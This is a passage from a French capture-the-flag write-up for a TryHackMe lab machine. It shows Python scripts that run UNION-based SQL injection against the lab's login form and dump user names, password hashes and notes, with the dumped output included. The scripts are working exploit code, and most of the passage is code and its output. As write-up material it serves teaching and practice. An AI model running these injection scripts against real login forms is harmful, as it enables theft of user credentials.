 Cette commande permet d'obtenir la commande pour créer la table users.  
On extrait les noms de colonnes.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat trouveBase.py 
import requests
url = "http://hogwartz-castle.thm/login"
data = {}
data['user'] = "' union select name,2,3,admin from users -- "
r = requests.post(url,data=data)
print(r.text)

tim@kali:~/Bureau/tryhackme/write-up$ python trouveBase.py 
{"error":"The password for Aaliyah Allen is incorrect! 0"}
```

On teste le nom admin sur depuis users, on a un nom.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat dump.py 
#!/usr/bin/env python3

import requests
import re
import json

url = "http://hogwartz-castle.thm/"
patt = re.compile('(.* .*:.*:.*)',re.DOTALL)


concat = "(name || ':' || password || ':' || notes)"
data = {}
data['password'] = 'whateves'
i = 0

while True:
    payload = f"' union select 1,2,3,{concat} from users limit 1 offset {i} -- "
    data['user'] = payload
    r = requests.post(url + '/login', data=data)
    if r.status_code == 200:
        break
    m = json.loads(r.text)['error'].split('!')[1].strip()
    message = patt.findall(m)[0]
    name, password, notes = message.split(':')
    print("{:20} | {:50}".format(name, password))
    print("{:20} | {}".format('',notes))
    i += 1
```

On va extraire les données avec le script ci-dessus.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ python dump.py 
Aaliyah Allen        | c063c5215b56091327a1f25e38e2d0a5e6db83cceb0ab29cbb0bedd686c18ee5770bfbbfa0a4ac542c8935b0fb63e30ea0bc0408d3523157d840fdfa54ec8dab
                     |  contact administrator. Congrats on SQL injection... keep digging
Aaliyah Sanders      | dc2a6b9462945b76f333e075be0bc2a9c87407a3577f43ba347043775a0f4b5c1a78026b420a1bf7da84f275606679e17ddc26bceae25dad65ac79645d2573c0
                     |  contact administrator. Congrats on SQL injection... keep digging
Aaliyah Williams     | 9dc90274aef30d1c017a6dc1d5e3c07c8dd6ae964bcfb95cadc0e75ca5927faa4d72eb01836b613916aea2165430fc7592b5abb19b0d0b2476f7082bfa6fb760
                     |  contact administrator. Congrats on SQL injection... keep digging
Abigail Morgan       | afcaf504e02b57f9b904d93ee9c1d2e563d109e1479409d96aa064e8fa1b8ef11c92bae56ddb54972e918e04c942bb3474222f041f80b189aa0efd22f372e802
                     |  contact administrator. Congrats on SQL injection... keep digging
Adam Jenkins         | 2317e58537e9001429caf47366532d63e4e37ecd363392a80e187771929e302922c4f9d369eda97ab7e798527f7626032c3f0c3fd19e0070168ac2a82c953f7b
```